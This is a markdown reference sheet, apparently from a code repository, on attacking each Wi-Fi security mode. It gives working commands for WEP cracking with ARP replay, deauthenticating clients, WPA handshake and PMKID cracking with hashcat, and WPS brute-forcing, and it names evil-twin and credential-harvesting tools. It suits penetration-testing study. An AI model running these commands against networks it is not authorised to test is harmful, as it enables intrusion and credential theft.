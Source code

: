 # Wi-Fi Security Modes and Attack Techniques

## 🔓 Open (OPN) Networks
**No encryption.** Anyone can connect and sniff traffic.

### Attack methods:
- Passive sniffing (`airodump-ng`, `tcpdump`)
- ARP spoofing, DNS spoofing, session hijacking (`ettercap`, `bettercap`)
- Evil twin or captive portal injection

---

## 🧪 WEP
**Weak encryption**, crackable in minutes.

### Crack method:
1. Capture a large number of IVs with `airodump-ng`
2. Speed up collection with ARP replay:
   ```bash
   aireplay-ng -3 -b <BSSID> -h <your MAC> wlan1
   ```
3. Crack key with:
   ```bash
   aircrack-ng <capture file>
   ```

---

## 🔐 WPA/WPA2-Personal (PSK)
**Shared password**, secured via a 4-way handshake.

### Standard Crack Flow:
1. Monitor traffic: `airodump-ng`
2. Deauth a client: `aireplay-ng -0 10 -a <BSSID> -c <client> wlan1`
3. Capture the handshake
4. Crack:
   ```bash
   aircrack-ng -w <wordlist> <capture.cap>
   ```

### Other Techniques:
- **PMKID attack** (no client needed):
  ```bash
  hcxdumptool -i wlan1mon -o dump.pcapng --enable_status=1
  hcxpcapngtool -o pmkid.hccapx dump.pcapng
  hashcat -m 16800 pmkid.hccapx -a 0 <wordlist>
  ```
- **WPS brute-force**:
  ```bash
  reaver -i wlan1mon -b <BSSID> -vv
  ```
- **Rainbow table (cowpatty)**

---

## 🏢 WPA/WPA2-Enterprise (WPA-MGT / WPA-EAP)
Uses 802.1X with RADIUS and EAP authentication.

### Attack Techniques:
- **Evil Twin (PEAP/MSCHAPv2)** using `hostapd-wpe`
- **Rogue AP (Probe Attack)** using `hostapd-wpe`, `eaphammer`
- **MITM downgrade** using `wifiphisher`, `EAPHammer`
- **Credential harvesting** with fake portal

---

## 💥 Summary

| Mode         | Attack Method(s) |
|--------------|------------------|
| **Open**     | Passive sniffing, Evil Twin, MitM |
| **WEP**      | IV capture + ARP replay → Aircrack |
| **WPA-PSK**  | Handshake crack, PMKID, WPS brute-force |
| **WPA-MGT**  | Evil Twin, Rogue AP, MSCHAPv2 hash capture, MITM |
